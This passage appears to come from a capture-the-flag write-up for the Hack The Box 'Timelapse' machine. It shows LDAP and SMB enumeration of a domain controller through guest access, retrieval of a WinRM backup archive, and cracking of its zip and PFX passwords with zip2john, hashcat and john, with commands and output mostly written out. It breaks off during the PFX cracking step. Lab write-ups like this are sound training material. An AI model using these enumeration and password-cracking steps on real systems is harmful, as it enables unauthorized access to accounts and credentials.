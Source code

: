 ```bash
|       dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=timelapse,DC=htb
|       dnsHostName: dc01.timelapse.htb
|       defaultNamingContext: DC=timelapse,DC=htb
|       currentTime: 20230207033838.0Z
|_      configurationNamingContext: CN=Configuration,DC=timelapse,DC=htb
Service Info: Host: DC01; OS: Windows
```
SMB Enumeration, following shares available:
```bash
crackmapexec smb 10.10.11.152 -u 'guest' -p '' --shares                    
SMB 10.10.11.152 445 DC01 [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.152 445 DC01 [+] timelapse.htb\guest: 
SMB 10.10.11.152 445 DC01 [+] Enumerated shares
SMB 10.10.11.152 445 DC01 SharePermissions Remark
SMB 10.10.11.152 445 DC01 ---------------- ------
SMB 10.10.11.152 445 DC01 ADMIN$ Remote Admin
SMB 10.10.11.152 445 DC01 C$ Default share
SMB 10.10.11.152 445 DC01 IPC$ READ Remote IPC
SMB 10.10.11.152 445 DC01 NETLOGON Logon server share 
SMB 10.10.11.152 445 DC01 Shares  READ 
SMB 10.10.11.152 445 DC01 SYSVOL Logon server share
```
Inside the `Shares` share we are able to get some files:
```bash
# Dev directory
smb: \Dev\> dir
  winrm_backup.zip                    A     2611  Mon Oct 25 15:46:42 2021
# Help Desk directory
smb: \HelpDesk\> dir
 LAPS.x64.msi A 1118208 Mon Oct 25 14:57:50 2021
 LAPS_Datasheet.docx A 104422 Mon Oct 25 14:57:46 2021
 LAPS_OperationsGuide.docx A 641378 Mon Oct 25 14:57:40 2021
 LAPS_TechnicalSpecification.docx A 72683 Mon Oct 25 14:57:44
```

### Exploitation

The .zip file is password protected, so we extract its hash with zip2john and then proceed to crack it with hashcat[^pfx-certificate]: 
```bash
zip2john winrm_backup.zip 
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
winrm_backup.zip/legacyy_dev_auth.pfx:$pkzip$1*1*2*0*965*9fb*12ec5683*0*4e*8*965*72aa*1a84b40ec6b5c20abd7d695aa16d8c88a3cec7243a...
40c7d3df38fc5da2c1a255ff8c9e344761a397d2c2d59d722723d27140c6830563ee783156404a17e2f7b7e506452f76*$/pkzip$:legacyy_dev_auth.pfx:winrm_backup.zip::winrm_backup.zip
```
Hashcat output:
```bash
D:\Programs\hashcat-6.2.5>hashcat.exe -m 17220 -a 0 hash.txt rockyou.txt
supremelegacy
```
The .pfx file is also password protected:
```bash
pfx2john legacyy_dev_auth.pfx   
legacyy_dev_auth.pfx:$pfxng$1$20$2000$20$eb755568327396de179c4a5...
45b03465a6ce0c974055e6dcc74f0e893:::::legacyy_dev_auth.pfx
```
Let's decrypt it with `john`:
```bash
pfx2john legacyy_dev_auth.pfx | john /dev/stdin --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
```

[^Get-LAPSPasswords]: Powershell Utility to read LAPS passwords
[^readlapspassword]: Python utility to read LAPS passwords
[^pfx-certificate]: PFX Certificate login
[^ldap-enumeration]: LDAP Enumeration
[^powershell-history]: Powershell History